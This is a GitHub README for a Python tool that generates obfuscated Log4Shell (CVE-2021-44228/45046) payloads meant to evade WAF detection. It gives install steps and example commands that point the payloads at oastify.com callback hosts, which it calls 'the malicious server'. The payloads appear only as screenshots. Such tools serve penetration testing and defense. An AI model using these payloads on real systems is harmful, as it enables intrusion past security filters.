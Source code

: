 # Log4Shell-obfuscated-payloads-generator
Log4Shell-obfuscated-payloads-generator can generate primary obfuscated or secondary obfuscated CVE-2021-44228 or CVE-2021-45046 payloads to evade WAF detection.

## Installation
```
git clone https://github.com/r3kind1e/Log4Shell-obfuscated-payloads-generator.git
```

Log4Shell-obfuscated-payloads-generator works out of the box with Python version 3.x on any platform.

## Usage
To get a list of basic options use:

```
python3 Log4Shell-obfuscated-payloads-generator.py -h
```

To get usage examples use:

```
python3 Log4Shell-obfuscated-payloads-generator.py -hh
```

## Screenshots
`-h`: get a list of basic options
![help](img/help.png)

`-hh`: get usage examples
![usage-examples](img/usage-examples.png)

With a single option to generate payloads, the `-s` option specifies the malicious server:
```
--generate-primary-obfuscated-cve-2021-44228-payload 8 -s ck0pf4l6fmq4w0v17o7t894txk3arz.oastify.com
```
![primary44228](img/primary44228.png)
![burp-collaborator-client1](img/burp-collaborator-client1.png)

```
--generate-primary-obfuscated-cve-2021-45046-payload 4 -s x53a0p6r07bphlgms9setupei5owcl.oastify.com
```
![primary45046](img/primary45046.png)

```
--generate-secondary-obfuscated-cve-2021-44228-payload 5 -s oia1rpap41mhxkp6rdbbywit1k7avz.oastify.com
```
![secondary44228](img/secondary44228.png)
![burp-collaborator-client2](img/burp-collaborator-client2.png)

```
--generate-secondary-obfuscated-cve-2021-45046-payload 5 -s 3vzg44n4hgzwaz2l4soqbbv8ezkq8f.oastify.com
```
![secondary45046](img/secondary45046.png)

With multiple options to generate payloads, the `-s` option specifies a malicious server:
```
--generate-primary-obfuscated-cve-2021-44228-payload 4 --generate-secondary-obfuscated-cve-2021-44228-payload 4 -s exfr6fpfjr17ca4w63q1dmxjgam2ar.oastify.com
```
![primary44228secondary44228](img/primary44228secondary44228.png)

Without specifying a malicious server with the `-s` option, the `{{callback_host}}` placeholder will be preserved in the generated payloads:
```
--generate-primary-obfuscated-cve-2021-44228-payload 3
```
![primary44228-without-server](img/primary44228-without-server.png)
```
--generate-primary-obfuscated-cve-2021-45046-payload 3 --generate-secondary-obfuscated-cve-2021-45046-payload 7
```
![primary45046secondary45046](img/primary45046secondary45046.png)

**TODO: The design idea of ​​Log4Shell-obfuscated-payloads-generator will be released after May 20th.**
